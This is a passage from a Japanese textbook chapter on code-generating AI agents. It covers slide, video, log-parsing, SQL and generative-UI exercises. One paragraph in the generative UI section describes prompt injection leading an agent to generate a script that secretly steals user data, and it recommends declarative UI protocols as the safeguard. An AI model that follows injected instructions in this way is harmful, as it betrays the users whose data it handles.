> **技術方案**：Slidev フレームワークを使う。Proposer Agent が論文 PDF を読み、章立て構造、核心的な論点、図表を抽出し、PPT の構造を計画し、ページごとに Slidev コードを生成する。**鍵となるステップ**：Reviewer Agent が各ページのスクリーンショットをレンダリングし、Vision LLM でレンダリング結果をチェックし、文字の溢れ、内容の混雑、画像サイズの不適切などの問題を識別し、構造化された改善提案を生成する。効果が基準に達するまでイテレーションする。
>
> **受け入れ基準**：10〜20 ページの PPT を生成し、論文の主要な貢献をカバーする。少なくとも 3 箇所の元の図表があり、かつ文字の説明と一致する。レンダリングに文字の溢れがなく、レイアウトが合理的である。単一 Agent の自己審査 vs 提案者・審査者の分業について、コンテキスト消費と生成品質の面での差異を対比する。
>

> **実験 5-5 ★★：論文解説ビデオの自動生成**
>
> **実験目標**：PPT 生成能力を拡張し、視覚と聴覚のチャネルを組み合わせてビデオ解説の自動生成を実現する。
>
> **技術方案**：実験 5-4 の PPT 生成フローに基づき、Agent は同時に各ページの口語的な解説文（復唱ではなく誘導的な語り）を生成し、TTS（テキスト読み上げ）を呼んで音声を合成し、ffmpeg で PPT のスクリーンショットと音声を同期させてビデオに合成する。
>
> **受け入れ基準**：ビデオは 5〜15 分、各ページの表示時間と音声の長さが正確に一致し、解説の内容が視覚要素と呼応する。
>
>
> 
>
>

**ビデオ編集 Agent。**

汎用の Computer Use でビデオ編集をするのは根本的な課題に直面します。ビデオ編集ソフトの GUI はきわめて複雑で、大量のタイムライン、レイヤー、エフェクトパネルを含み、Agent はこれらのインターフェース要素を正確に特定し、マウスとキーボードの操作で編集する必要があり、座標を正確に出力するのは非常に困難です。

ビデオ編集を API 呼び出しとコード生成の問題として再構成すれば、複雑さを大幅に下げられます。多くのプロ用ソフト（Blender——オープンソースの 3D 制作とビデオ合成ツール、Python スクリプトによる制御をサポート。FFmpeg——音声・映像処理領域のコマンドラインのスイスアーミーナイフ）はプログラム的な API インターフェースを提供し、構造化された組み合わせ可能な方式で核心的な機能を公開しています。例えば Blender Python API は、ビデオクリップのインポート、トリミング、配置、トランジション効果、音声のミキシングなどの操作をコードで正確に制御でき、各操作が明瞭な関数呼び出しに対応します。Agent にとって、自然言語の要求を API 呼び出しに変換するのは、GUI インターフェースを理解してマウスクリックを模擬するよりはるかに容易です。PPT 生成と同様に、ビデオ編集も提案者・審査者機構を採ります。Proposer Agent が Blender スクリプトを生成し、Reviewer Agent がキーフレームをレンダリングして Vision LLM で効果をチェックし、修正提案をフィードバックします。

> **実験 5-6 ★★：API に基づくインテリジェントなビデオ編集**
>
> **実験目標**：Agent が Blender Python API コードを生成してビデオ編集を実現する能力を検証し、視覚フィードバックに基づく提案者・審査者機構がマルチメディアコンテンツ処理において果たす役割を評価する。
>
> **核心的な課題**：ユーザーの自然言語の編集要求を理解して正確な API 呼び出しのシーケンスに変換し、多様な編集操作（クリップ、結合、字幕、音声トラックのミキシング、視覚効果）を処理し、生成した Python スクリプトが正しく実行されることを担保する。Proposer Agent はコードを書いた後、直接ビデオの効果を判断できず、必ず Reviewer Agent を通じてレンダリングし、Vision LLM を利用してキーフレームをチェックしなければならない。
>
> **技術方案**：ユーザーがビデオ素材（サーフィン、ハイキング、スキーなどの場面を含む生の素材など）を提供し、自然言語で要求を記述する（「サーフィンの部分を切り出して」など）。Proposer Agent はビデオ分析サブ Agent を通じて**2 段階の位置特定戦略**を採る。
>
> **第一段階、粗い粒度の位置特定**：サブ Agent を呼び、ビデオのパス、10 秒ごとのスクリーンショット間隔、目標の問題を渡す。サブ Agent は ffmpeg でキーフレームを切り取り、すべてのスクリーンショットを問題とともに Vision LLM に入力し、場面の区間（「サーフィンは第 40〜110 秒」など）を返す。
>
> **第二段階、精細な粒度の位置特定**：より狭い範囲で、毎秒のスクリーンショット密度でサブ Agent を再び呼び、境界の時刻を正確に特定する。
>
> ビデオ分析をサブ Agent としてカプセル化することで、大量のスクリーンショットがメイン Agent のコンテキストを占めるのを避ける。位置特定の後、Blender API スクリプトを生成する。Reviewer Agent は高速なプレビューを実行し、キーフレームをチェックして修正提案をフィードバックし、基準に達するまでイテレーションしてから完全にレンダリングする。
>
> **受け入れ基準**：Agent がビデオ内の異なる場面を正確に識別でき、自然言語の指示に従って正しく編集スクリプトを生成できる。開始点と終了点の位置が正確である（誤差が 3 秒を超えない）。指示にエフェクトの要求（スローモーション、トランジション、字幕）が含まれる場合、生成したビデオが正しく効果を適用する。Reviewer Agent が明らかな誤り（重要な内容の欠落、無関係な断片の混入）を検出して修正をトリガーできる。最終的な出力ビデオのファイル形式が正しく、画質が予想に合致する。
>

### システムアダプタとしてのコード

前の数節のコードは大半が「人に向けた」もの——レポート、スライド、インターフェース——を産み出しました。この節のコードはもう一つの方向を指します。**機械と機械をつなぐ**ことです。現実のシステムでは、Agent がやり取りする外部サービスにはしばしば既成の SDK がなく、インターフェースも規範的とは限りません。ドキュメントの欠落、非標準の返却形式、バージョンとともに漂うフィールド。こうした状況に直面したとき、Agent は誰かがあらかじめアダプタ層を書いてくれるのを待つ必要はなく、その場でインターフェースのドキュメントを読むか、あるいは直接一つ二つの実際のレスポンスを観察して、即座にアダプタコードを生成します。HTTP クライアントを構築し、認証ヘッダを組み立て、非標準の返却構造をパースし、上流のデータモデルを下流が消費できる形へと翻訳するのです。ここでコードは任意のシステムをつなぐ「万能接着剤」になります。つながらないところがあれば、その場で一段の糊を生成して補う。これこそメタ能力の「システムインターフェース」方向の核心です。これから展開するログの自己適応パースは、この能力の可観測性の場面における具体化です。絶えず進化するログ形式に直面して、Agent は同様に現場でパースコードを生成して適応します。

この「万能接着剤」はさらに**まったく API のないシステム**へも延伸できます。外部システムがグラフィカルインターフェースしか公開していないとき、Agent はまず Computer Use（第 9 章で詳しく紹介します）でインターフェースを操作し、それから成功した操作のシーケンスをコードで RPA ツールとして固定できます。将来同じタスクを実行するときは直接コードを走らせ、きわめて高速で安定した操作を完成させ、高価な視覚的思考を再び呼ぶ必要がありません。RPA は「システムアダプタ」の、インターフェースのないシステム上での極端な形態だと言えます。この「ワークフローの録画と固定」機構は第 8 章で展開します。

データ処理はソフトウェアシステムの中で最もよくある、しかし最も頭を悩ませるタスクの一つです。根源はデータ形式の多様性と絶え間ない変化にあります。同じシステムが進化の過程で何度もデータ形式を変えることがあります。新しいフィールドの追加、入れ子構造の変更、新しい型の導入。各形式のためにパースコードを手書きすれば、保守コストがきわめて高く、形式を変えるたびにパースロジックを更新し、互換性をテストし、新しいバージョンをデプロイしなければなりません。

コード生成は、まったく新しい発想を提供します。Agent に、新しい形式に出くわしたときにサンプルデータに基づいて臨時にパースコードを生成させ、システムがデータ形式の進化に自動で適応し、人手の介入を要さないようにするのです。

**Agent ログのパースと可視化。**

Agent システムの可観測性は、実行フローの可視化に依存します。複雑な Agent タスクは数百ステップの操作を含み得て、複数回の LLM 呼び出し、数十のツール実行、複数のサブ Agent の相互作用に及びます。これらのデータの可視化は多重の課題に直面します。異なるツールが異なる構造のデータを返し、形式はシステムのイテレーションとともに絶えず進化します。一つの完全な軌跡は数十万字を含み得て、概観と細部の間でバランスを取る必要があります。

コード生成は優雅な解決策を提供します。自動修復のフィードバックループを築くのです。フロントエンドがパースできないログ形式に出くわしたとき、エラーを表示するのではなく、自動で失敗情報（生のログのサンプル、詳細なエラー報告）を Agent に報告します。Agent はサンプルのデータ構造を分析し、正しくパースできるフロントエンドコードを生成します。コードはまず仮想ブラウザで自動でテストされ（パースの正しさを検証し、Vision LLM で可視化効果をチェックする）、通過後にフロントエンドシステムにホット更新されます。

> **実験 5-7 ★★★：自己適応のログパースシステム**
>
> **実験目標**：自己進化できる Agent ログ可視化システムを構築する。
>
> **技術方案**：初期システムは基本的な形式のみをサポートする。フロントエンドがパースの失敗を検出→ Agent に報告→パースコードを生成→仮想ブラウザでテスト→ホット更新デプロイ。全フローを自動化する。
>
> **受け入れ基準**：失敗を自動検出して学習をトリガーし、生成したコードが自動テストを通過し、ホット更新後に新しい形式を正しくパースする。
>

**Agent 実行ログの自動分析と問題診断。**

プロダクション環境の Agent は大量の軌跡ログ（trajectory、各タスクの完全な過程を記録する）を生み出します。しかしログから問題を識別し、根本原因を特定し、テストケースを構築するのは高コストの作業です。問題の特定は困難です。タスクの失敗は複数のモジュールの協同的なエラーによって引き起こされ得るからです。再現のコストは高い。プロダクション環境の複雑さはテスト環境で模擬しづらいからです。修復済みの問題は繰り返し現れやすい。体系的な回帰テストが欠けているからです。

コード生成は診断に自動化の経路を提供します。Agent はプロダクションログを読み、アーキテクチャ文書と PRD（製品要求仕様書）を組み合わせて、実行フローが予想に合致するかを自動で判断し、問題のある段階とモジュールを特定できます。分析結果に基づいて構造化された問題報告（優先度、モジュール、記述、改善提案）と回帰テストケースを生成します。テストケースは問題の軌跡 ID と鍵となるインタラクションのラウンドを参照し、テストフレームワークが自動でリプレイして、修復後のシステムが同じ入力で正しい振る舞いを生めるかを検証します。最後に Agent は MCP を通じて GitHub に接続して Issue を作成し、関連する開発者に割り当て、問題の発見からタスクの割り振りまでの完全な自動化を成し遂げます。

> **実験 5-8 ★★★：プロダクションログのインテリジェント診断システム**
>
> **実験目標**：プロダクション軌跡から自動で問題を発見し、テストケースを生成し、作業項目を作成する。
>
> **技術方案**：Agent がプロダクション環境の軌跡の集合を読み、システムアーキテクチャ文書と PRD を組み合わせて分析する。問題のパターンを識別し、関わるモジュールを特定する。構造化された問題報告（優先度、モジュール、記述、改善提案）を生成する。回帰テストケースを自動生成する（軌跡 ID とインタラクションのラウンドを参照し、テストフレームワークが自動でリプレイして検証する）。MCP を通じて GitHub に接続して Issue を自動で作成する。
>
>
> 
>
>

### 生成的 UI としてのコード

従来の Agent システムは、主に純粋なテキスト対話でユーザーとやり取りします。しかしテキストは線形で単一のインタラクション方式として、多くの場面で効率が低いのです。構造化された情報を収集する必要があるとき、繰り返しの問答が対話を冗長にします。複雑なデータ関係を呈示する必要があるとき、純粋なテキストの表現力は限られます。ユーザーに複数の選択肢から選ばせる必要があるとき、テキストのリストは可視化されたインターフェースにはるかに及びません。

コード生成は、これらの制限を突破する可能性を提供します。Agent はフォーム、インタラクティブなチャート、ひいては完全な Web アプリケーションを動的に生成でき、静的なテキスト対話を豊かなマルチモーダルなインタラクションへと格上げできます。この Agent がインターフェースを動的に生成するモードは、**生成的 UI**（Generative UI）と呼ばれます。

**A2UI 系プロトコル：生成的 UI の標準化。**

Agent が直接 HTML と JavaScript のコードを UI として生成するとき、一つの根本的なセキュリティ問題が存在します。生成されたコードが悪意ある内容を含み得るのです。例えば、誰かが入力の中にわざと一段の指示を潜ませていたら、Agent はプロンプトインジェクションに操られ、知らず知らずのうちにユーザーのデータをこっそり盗み取るスクリプトを生成しかねません。ここで因果を整理しておく必要があります。原因は**プロンプトインジェクション**（悪意ある指示が Agent の入力に紛れ込んだ）であり、最終的にブラウザで悪意あるスクリプトを実行しデータを盗む**効果**は従来の Web の XSS（Cross-Site Scripting、クロスサイトスクリプティング）に似ています——攻撃全体を直接 XSS と呼ぶことはできません。A2UI（Agent-to-User Interface）を代表とする宣言的なインターフェースプロトコルは、より安全な方向を提供します。Agent は実行可能なコードを直接生成するのではなく、一份の「インターフェース記述リスト」（JSON 形式）だけを出力します。例えば「3 行 2 列の表を表示してください、タイトルは「売上データ」です」といったものです。クライアントはこのリストを受け取ると、自分があらかじめ用意した安全なコンポーネントでインターフェースをレンダリングします。これはレストランのメニューのようなものです。客（Agent）はメニューにある料理（あらかじめ定義されたコンポーネント）しか注文できず、厨房に入って自分で作る（任意のコードを実行する）ことはできません。ここでよくある混同を一つ整理しておきます。AG-UI（Agent-User Interaction、CopilotKit が提出）は名前こそ似ていますが、インターフェース記述言語ではなく、付随する**イベント/トランスポートプロトコル**であり、Agent の実行状態（メッセージ、ツール呼び出し、状態のパッチ）をフロントエンドへストリーミングで送り出す役割を担い、それ自体はむしろ A2UI のようなインターフェースのペイロードを載せることすらできます。したがって両者は相補的であって同類ではなく、同じ一種類の「宣言的インターフェースプロトコル」として並べるべきではありません。

この種のプロトコルの核心的な設計原則は**安全優先**です。クライアントは信頼できるコンポーネントの目録（Card、Button、TextField、Table など）を維持し、Agent は目録にすでにあるコンポーネントのレンダリングを要求できるだけで、任意のコードを注入できません。クライアントは自分のネイティブなコンポーネントでレンダリングし、Agent が生成した任意の HTML を実行しません。この種のプロトコルは通常さらに**クロスプラットフォーム**（同じ一份の記述を React、Flutter、ネイティブアプリでレンダリングする）と**インクリメンタル生成**（ストリーミングの JSONL 形式、受け取りながらレンダリングする）をサポートします。

もちろん、宣言的な手法は標準化されたインタラクションの場面（フォーム、表、カード）に適しており、高度にカスタマイズされたニーズ（カスタムの可視化、ゲームインターフェースなど）に対しては、直接コードを生成するほうが依然としてより柔軟な選択です。以下では 2 つのモードの具体的な応用を示します。

**HTML で成果を引き渡す：Markdown 報告に取って代わる。** 生成的 UI はインタラクションの過程で使われるだけでなく、Agent が最終的に**成果を引き渡す**形態をも変えつつあります。従来、Agent はあるタスクをやり終えると往々にして一份の Markdown 報告文書を産み出しましたが、線形に配置された Markdown を一ページずつめくって読むのは、実はさして読みやすくありません。Agent がフロントエンドコードを生成する能力がますます強くなるにつれ、直接 HTML を産み出させる実践がますます増えています。Markdown に比べ、HTML の引き渡し物にはいくつか明らかな優位性があります。一つは**インタラクティブなデモ**です。操作可能な形でシステムがどう動くかを直接デモでき、ユーザーは往々にして一目で理解でき、大量の文字の記述に勝ります。二つ目は**より良いデータ可視化**です。表ではなくチャートでデータを呈示でき、さらにインタラクティブなコンポーネントを構築して、ユーザーが自分で閲覧し、絞り込み、自分の関心のある細部までドリルダウンできます。三つ目は**継続的に完善できる引き渡し物**です。HTML の Web サイトは、タスク終了時に一度きり産み出される死んだ物である必要はなく、作業が進む過程で Agent が絶えず補い完善していけます。

筆者自身の論文執筆の経験を例にとりましょう。研究プロジェクトごとに筆者は一つのインタラクティブな Web サイトを維持しています[^ch5-4]。それは最終的な引き渡し物であると同時に、より一層、研究過程における一份の生きたドキュメントです。筆者は Agent に、実験の進展とともにそれを継続的に更新させます。この Web サイトは少なくとも 3 種類の役割を担います。一つは**実験データの追跡**です。各実験の具体的なデータ、用いた prompt、そして LLM の生のレスポンスを、Web サイト上で一条ずつ確認できます。これらを広げて見せると、かえってデータの構築、データの形式、データの分布上の問題を発見しやすく、LLM のレスポンスと judge の採点に系統的な偏りがあるかどうかも見て取りやすくなります。二つ目は**訓練指標の監視**です。訓練過程の各曲線を直接 Web ページに並べ、モデルの**内科指標**が健全かどうかをいつでも確認しやすくします。ここで医学の「内科」という言い方を借りています。内科指標とは、訓練過程そのものが正常かどうかを反映する内部の信号を指します。例えば訓練損失と検証損失、勾配ノルム、学習率、モデルが token を出力するときの困惑度（perplexity、モデルが自らの生成内容に対する「確信」の程度を測る）、そして強化学習における報酬、KL ダイバージェンス、方策エントロピーなどです。それらはタスク正解率のような最終的な結果指標とは異なります。ちょうど健康診断のときの各生理指標が一人の人の外的な表現に対するのと同じで、内科指標は往々にして、損失が収束しない、勾配が爆発する、訓練が崩壊するといった問題をより早く露呈させます。三つ目は**動作原理の呈示**です。可視化された方式でシステム全体の動作原理を呈示し、この AI が組み上げたシステムがいったいどんな構造なのかを一目で見て取れるようにします。

[^ch5-4]: 筆者の研究プロジェクトの Web サイトは https://01.me/research/ を参照。各プロジェクトに継続的に更新されるインタラクティブな Web サイトが付属している。

**ユーザーの意図を明確にする。**

ユーザーの要求の表現が曖昧または不完全なとき、Agent は明確化の質問を通じて必要な情報を収集する必要があります。OpenAI Deep Research などの製品は通常テキストの問答方式を採りますが、これには明らかな限界があります。効率の面では、各質問に一ラウンドの対話が必要で、10 の明確化ポイントには 10 ラウンドのインタラクションが必要です。表現力の面では、一部の質問の間には依存関係があり（例えば「旅行の目的地の選択」が「交通手段」の選択肢に影響する）、純粋なテキストではこの連鎖的な関係を表現しづらいのです。

コード生成を通じて、Agent は構造化されたインタラクティブなインターフェースを作ってテキストの問答に取って代わることができます。図5-8 は動的フォーム生成のフローを示し、Agent が明確化の質問をどう一度で記入する構造化されたインターフェースに変えるかを説明します。Agent は各種の入力コントロールを含む HTML フォームを生成します。テキストボックスは開放的な情報を収集し、ドロップダウンメニューはユーザーにあらかじめ定義された選択肢から選ばせ、チェックボックスは複数選択を許し、日付選択器は時刻の入力を簡略化します。さらに進んで、Agent は連鎖的なフォームを生成できます。JavaScript で動的なロジックを実現し、ある選択肢を選んだ後に後続の質問を自動で表示または非表示にし、選択肢を動的に更新します。ユーザーは一度でフォーム全体を記入し、複数ラウンドの対話を要さず、しかも記入すべきすべての情報と質問の間の論理関係を明瞭に見て取れます。




> **実験 5-9 ★★：動的フォーム生成の意図明確化システム**
>
> **実験目標**：Agent が HTML フォームを動的に生成してユーザーの意図を明確にする能力を検証する。
>
> **技術方案**：Agent がユーザーの要求を分析し、明確化ポイントを識別し、連鎖ロジックを含むフォームコードを生成する。フロントエンドがレンダリングし、ユーザーが一度で送信し、Agent が JSON データをパースしてタスクを続ける。
>
> **受け入れ基準**：ユーザーが「北京行きの航空券を 1 枚予約したい」と入力すると、Agent がフォームを生成し、以下を含む。出発都市（テキスト入力）、出発日（日付選択器）、旅行タイプ（単一選択：片道/往復）、復路の日付（「往復」を選んだときのみ表示）。ユーザーが一度ですべての情報を送信して完成する。
>

**SQL クエリの生成。**

データベースクエリは、コード生成がインタラクション体験を著しく高められる場面です。従来のデータベースアクセスは GUI ツールまたは手書きの SQL に依存し、前者は操作が煩雑、後者はユーザーに専門知識を要求します。Agent は自然言語を SQL に変換できますが、ここに一つ鍵となる設計上の選択があります。Agent に SQL を実行させてから結果を自然言語で記述させるのか、それとも Agent に SQL コードを artifact として生成させてフロントエンドに直接実行させるのか。

第一の方案は一見より「賢い」ように見えますが、効率がきわめて低いのです。クエリ結果は数千行の大きな表を含み得て、LLM に読ませてから文字で記述させるのは大量の token を消費し時間がかかるだけでなく、より深刻なのは LLM がデータを「書き写す」ときに非常に間違えやすいことです。より良い方案は **artifact モード**です。図5-9 は SQL クエリ Agent の作業フローを示します。Agent は自らデータを読まず、一段の SQL クエリコードを生成し、このコードを一つの独立した「制作物」（artifact）としてシステムに引き渡します。システムはこの SQL を持って直接データベースに照会し、照会したデータをユーザーが見られる表にレンダリングします。全体の過程で、データはデータベースからユーザーインターフェースへ直達し、LLM というこの「仲介者」を完全に迂回します。LLM はクエリ文を書くことだけを担い、自ら何千何万行ものデータを読んでユーザーに復唱する必要がなく、高速かつ正確なのです。




さらに進んで、Agent は 2 つの artifact を生成してパイプラインを形成できます。SQL クエリ + 可視化コード（棒グラフなど）です。フロントエンドが SQL の結果を直接可視化コードに渡し、LLM はコードの生成だけを担い、データの伝達には関与しません。これこそインターフェースとしてのコード生成の神髄です。

> **実験 5-10 ★★：自然言語でインタラクションする ERP Agent**
>
> ERP（企業資源計画）ソフトは企業の鍵となるシステムで、現在は一般に GUI インターフェースを使い、複雑な操作は何度もマウスクリックを要します。AI Agent はユーザーの自然言語クエリを SQL 文に変換し、自動化された照会を実現できます。
>
> PostgreSQL データベースを構築し、2 つの表を含めることを要求する。(1) 従業員表。従業員 ID、氏名、部門、等級、入社日、退職日（空欄は在職を表す）を含む。(2) 給与表。従業員 ID、給与支給日、給与（毎月 1 レコード）を含む。Agent が自動で答える。
>
> 1. 従業員 1 人あたり平均どれくらい在職しているか？
> 2. 各部門に在職従業員は何人いるか？
> 3. どの部門の従業員の平均等級が最も高いか？
> 4. 各部門で今年と去年にそれぞれ何人が新たに入社したか？
> 5. 一昨年 3 月から去年 5 月まで、A 部門の平均給与は？
> 6. 去年の A 部門と B 部門の平均給与はどちらが高いか？
> 7. 今年の各等級の従業員の平均給与は？
> 8. 入社 1 年以内、1〜2 年、2〜3 年の従業員の直近 1 か月の平均給与は？
> 9. 去年から今年にかけて昇給幅が最も大きかった 10 名の従業員は？
> 10. 給与の未払い（ある月に在職だが給与が支給されていない）はあるか？
>

**ソフトウェアの動的生成。**

コード生成能力の究極の応用は、Agent に完全に動的に、ゼロからソフトウェアを作らせることです。Anthropic の「Imagine with Claude」はこの可能性の境界を示しました。ユーザーが要求を出し、Claude がリアルタイムにフロントエンドインターフェースとインタラクションロジックを生成し、ユーザーが生成されたソフトウェアとやり取りし、Claude がコードを修正して新しいインターフェースを生成し操作結果を呈示します。全体の過程でユーザーは、無から有へ、絶えず進化するアプリケーションを目にします。

ただし、この完全に動的な生成のモードはコストと遅延が比較的高く、能力の境界を示す実験としてのほうが適しています。より実務的な方向は**既存のフレームワークに基づくカスタマイズ修正**です。この「半カスタマイズ」モードは基礎ソフトウェアの安定性を保ちつつ、特定の次元でユーザーに制御権を開放します。ユーザーが「ボタンを青に変えて」「サイドバーにショートカットメニューを追加して」「フォントをもっと読みやすいスタイルに変えて」と言うと、Agent が要求を理解してフロントエンドコードを修正し、ホットリロード（HMR、Hot Module Replacement、局所的なホット置換。アプリケーションの状態を保ち、ページ全体をリフレッシュせずに反映できる）が即座に反映します。これは「一律画一」の標準製品を「千人千様」の個性的な体験へと転換します。

> **実験 5-11 ★★：対話式インターフェースのカスタマイズシステム**
>
> **実験目標**：ユーザーが自然言語の対話を通じて即座にソフトウェアインターフェースをカスタマイズできる能力を実現し、ホットリロード機構がサポートするコード生成が個性的なユーザー体験の提供において有効であることを検証する。
>
> **技術方案**：基礎的な chatbot アプリケーション（React フロントエンド + FastAPI バックエンド）を構築し、フロントエンドとバックエンドの双方が開発モードで走ってホットリロードをサポートする（React の HMR、FastAPI の reload）。ユーザーが対話の中で UI のカスタマイズ要求（色、フォント、レイアウト、コンポーネントの位置など）を出し、Agent が自律的にコードを修正する。ホットリロード機構がファイルの変化を自動で検出し、フロントエンドが再コンパイルしてリフレッシュし、ユーザーがリアルタイムにインターフェースの変化を目にする。複数ラウンドのイテレーションのカスタマイズをサポートする。
>

### コードがコードを創る：Agent の自己ブートストラップ

前のいくつかの節では、コード生成が各領域で応用される様子——数学的思考から文書創作、そしてインターフェースのカスタマイズまで——を示しました。もしこれらの能力を極限まで推し進めると、一つの自然な問いが浮かびます。Agent はコード生成能力を使って、もう一つの Agent を創り出せるのか？

ここでまず第 8 章と役割分担をはっきりさせておきます。本節が語るのは、Agent がコードで**自分と同類の Agent を修復し創り出す**こと——自己修復、自己複製、必要に応じて新しい Agent を繁殖させること——であり、作用対象は Agent のコードと構造です。第 8 章の「自己進化」は別のことで、Agent が**モデルの重みを変えない**という前提で能力を持続的に成長させること（経験の沈殿、プロンプトの最適化、ツールの蓄積）を指し、作用対象は Agent の知識と戦略です。両者とも「進化」と呼べますが、第 8 章の章名との混同を避けるため、本節ではこの「コードで Agent を生産する」能力を**自己ブートストラップ**（bootstrapping）と呼びます。





**Agent の自己修復：OpenClaw Doctor。**

Agent の自己ブートストラップの一つの重要な前提は自己修復能力です。OpenClaw の `doctor` コマンドはまさにこの能力の体現です。それは 3 種類の問題を自動で検出できます。

- **設定の異常**：期限切れの OAuth token、遺留した設定形式、ポートの競合
- **状態の問題**：古びたセッションのロックファイル、プラグインの依存の欠落
- **サービスの健全性の問題**：ゲートウェイが稼働していない、サンドボックスイメージの欠落

そして階層的な修復戦略によって自動で解決します。安全な修復（設定の正規化、ロックファイルのクリーンアップ）は自動で実行し、リスクのある操作（サービスの再起動、設定の強制上書き）はユーザーの確認を要します。

